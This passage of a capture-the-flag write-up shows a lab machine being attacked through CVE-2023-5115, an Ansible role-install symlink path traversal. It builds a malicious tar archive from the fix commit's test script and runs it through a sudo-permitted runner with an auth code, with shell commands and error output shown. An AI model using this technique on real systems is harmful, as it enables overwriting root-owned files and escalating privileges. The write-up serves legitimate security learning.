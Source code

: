 #### Identify Issue

In searching for Ansible exploits from around this timeframe, I’ll find two that seem similar:
- [CVE-2023-5189](https://nvd.nist.gov/vuln/detail/CVE-2023-5189) - [Ansible galaxy-importer Path Traversal vulnerability](https://github.com/advisories/GHSA-55g2-vm3q-7w52):

  > A path traversal vulnerability exists in Ansible when extracting tarballs. An attacker could craft a malicious tarball so that when using the galaxy importer of Ansible Automation Hub, a symlink could be dropped on the disk, resulting in files being overwritten.
- [CVE-2023-5115](https://nvd.nist.gov/vuln/detail/CVE-2023-5115) - [Ansible symlink attack vulnerability](https://github.com/advisories/GHSA-jpvw-p8pr-9g2x):

  > An absolute path traversal attack exists in the Ansible automation platform. This flaw allows an attacker to craft a malicious Ansible role and make the victim execute the role. A symlink can be used to overwrite a file outside of the extraction path.

The first one is in `galaxy-importer` which I don’t think is at play here, but the second is in Ansible.

#### Build Archive

What’s really cool about this vulnerability is that the [commit to fix it](https://github.com/ansible/ansible/commit/1e930684bc0a76ec3d094cd326738ad26416541c#diff-63d02f381c6bfa8fd4df0ad039d5c9ca4c918d1c9072548b9d1ba4cccf795d57) includes tests to ensure it doesn’t work.

[![image-20240504071404309](/img/image-20240504071404309.png)*Click for full size image*](/img/image-20240504071404309.png)

The test is a playbook that has a stage to create a `dangerous.tar` and the next step to run it. The `ansible-galaxy role install` command looks very similar to what I’m dealing with.

The `create-role-archive.py` script is also [in that commit](https://github.com/ansible/ansible/commit/1e930684bc0a76ec3d094cd326738ad26416541c#diff-63d02f381c6bfa8fd4df0ad039d5c9ca4c918d1c9072548b9d1ba4cccf795d57). I’ll copy that code and save a copy on Intuition. I’ll run it to make an archive:

```

lopez@intuition:/dev/shm$ python3 create.py 0xdf.tar 0xdf.json /dev/shm/.0xdf/root.json
lopez@intuition:/dev/shm/.0xdf$ tar -tvf 0xdf.tar 
-rw-rw-r-- lopez/lopez       0 2024-05-04 20:15 tmp/tmpnhaijasn/meta/main.yml
lrwxrwxrwx lopez/lopez       0 2024-05-04 20:15 tmp/tmpnhaijasn/symlink -> /dev/shm/root.json
-rw-rw-r-- lopez/lopez      87 2024-05-04 20:12 tmp/tmpnhaijasn/symlink

```

This creates a tar archive that has a `main.yml` (required to install), the data from `0xdf.json` in `symlink`, and `symlink` pointing to `/dev/shm/root.json`. When I “install” this role, it should write those contents to `root.json`. I’m picking a directory I control so that I can see that it works, and see what the result looks like.

#### Getting Correct Directory

If I run this the way I have been running, it fails:

```

lopez@intuition:/dev/shm$ echo '{"run": {"action": "install", "role_file": "/dev/shm/0xdf.tar"}, "auth_code": "UHI75GHINKOP"}' > 0xdf.json
lopez@intuition:/dev/shm$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
- extracting /dev/shm/0xdf.tar to /dev/shm/0xdf.tar
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.

```


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.